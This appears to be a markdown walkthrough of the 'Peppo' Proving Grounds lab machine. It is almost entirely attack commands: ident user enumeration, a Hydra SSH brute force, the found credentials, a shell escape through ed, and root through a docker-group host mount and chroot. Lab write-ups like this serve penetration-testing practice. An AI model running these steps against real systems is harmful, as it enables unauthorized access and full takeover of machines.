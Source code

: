
# 🐧 Peppo (Linux)

📄 [Walkthrough](https://al1z4deh.medium.com/proving-grounds-peppo-931ae40ec1a2)

---

## 🚪 Initial Foothold

🔍 **Port 113** (ident)

Used [`ident-user-enum`](http://pentestmonkey.net/tools/ident-user-enum) to enumerate users:
```bash
ident-user-enum $IP 113
```

🔑 Discovered user `eleanor`.

Used **Hydra** for brute force:
```bash
hydra -l eleanor -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

✅ Found valid credentials: `eleanor:eleanor`.

🔐 SSH login:
```bash
ssh eleanor@$IP
```

📁 Checked the user’s `$PATH`:
```bash
echo $PATH
# Output: /home/eleanor/bin
```

🧩 Found suspicious binary `ed` in `/home/eleanor/bin`:
```bash
ls -la /home/eleanor/bin
```

👀 Inside `ed`:
```bash
ed
! /bin/bash
```

🏃 Escaped to a shell and exported a valid PATH to ensure system binaries are reachable:
```bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

---

## 🧑‍🚀 Privilege Escalation

📎 Ran `linpeas.sh` to enumerate privilege escalation vectors.

🔎 Found the user is in the **docker group** (dangerous!):
📚 [Docker Group Exploitation Guide](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#docker-group)

🐳 Listed available Docker images:
```bash
docker images
```

📦 Chose an image and mounted the host filesystem:
```bash
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
```

👑 Got root!

---

## 🧰 Git Commands (Personalized)

```bash
# Move the file to the linux walkthroughs folder
mv ~/Downloads/Peppo.md ~/Downloads/walkthroughs_project_template/linux/Peppo.md

# Change directory to the project root
cd ~/Downloads/walkthroughs_project_template

# Add all changes to git
git add .

# Commit the changes with a descriptive message
git commit -m "Added Peppo (Linux) walkthrough"

# Push the commit to GitHub
git push
```
